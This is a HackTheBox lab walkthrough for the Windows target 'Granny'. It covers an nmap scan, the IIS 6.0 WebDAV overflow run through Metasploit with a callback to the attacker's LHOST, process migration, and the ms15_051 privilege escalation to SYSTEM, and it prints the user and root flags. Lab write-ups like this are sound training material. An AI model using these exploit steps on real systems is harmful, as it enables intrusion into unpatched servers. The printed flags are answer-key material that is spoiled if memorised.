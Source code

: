 # HackTheBox Walkthrough - Granny

**Machine Name**: Granny  
**Target IP**: 10.129.95.234  
**Operating System**: Windows  
**Difficulty**: Easy  

---

## 🧭 Enumeration

### 🔍 Nmap Scan

```bash
nmap -sV -sC -oA nmap/Granny 10.129.95.234
```

**Open Ports:**
```
80/tcp open  http    Microsoft IIS httpd 6.0
```

**Interesting Findings:**
- Potentially risky HTTP methods: `TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT`
- WebDAV enabled
- Server: Microsoft-IIS/6.0

---

## 🚪 Initial Access

### 🔍 Exploit Search

- Exploit Title: Microsoft IIS - WebDav 'ScStoragePathFromUrl' Remote Overflow (Metasploit)
- ExploitDB: [41992](https://www.exploit-db.com/exploits/41992)

### 🎯 Exploitation (Metasploit)

```bash
msfconsole
use exploit/windows/iis/iis_webdav_scstoragepathfromurl
set RHOSTS 10.129.95.234
set LHOST 10.10.14.72
run
```

✅ Meterpreter session opened.

```bash
getuid
[-] stdapi_sys_config_getuid: Operation failed: Access is denied.
```

### 🔁 Privilege Escalation (Process Migration)

```bash
ps
migrate 1956  # wmiprvse.exe (NT AUTHORITY\NETWORK SERVICE)
getuid
# NT AUTHORITY\NETWORK SERVICE
```

---

## 🧨 Privilege Escalation

### 🔍 Local Exploit Suggester

```bash
background
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```

**Notable Exploit Candidates:**
- `ms15_051_client_copy_image`

### 🚀 Exploiting `ms15_051_client_copy_image`

```bash
use exploit/windows/local/ms15_051_client_copy_image
set SESSION 1
set LHOST 10.10.14.72
run
getuid
# NT AUTHORITY\SYSTEM
```

✅ SYSTEM Shell acquired

---

## 🏁 Flags

### 👤 User Flag

```bash
cat C:\Documents and Settings\[USERNAME]\Desktop\user.txt
700c5dc163014e22b3e408f8703f67d1
```

### 👑 Root Flag

```bash
cat C:\Documents and Settings\Administrator\Desktop\root.txt
aa4beed1c0584445ab463a6747bd06e9
```

---

## 🧠 Summary

- Windows IIS 6.0 with WebDAV exposed → RCE using MSF exploit
- Privilege escalation via `ms15_051_client_copy_image` kernel exploit
- Gained SYSTEM access and retrieved flags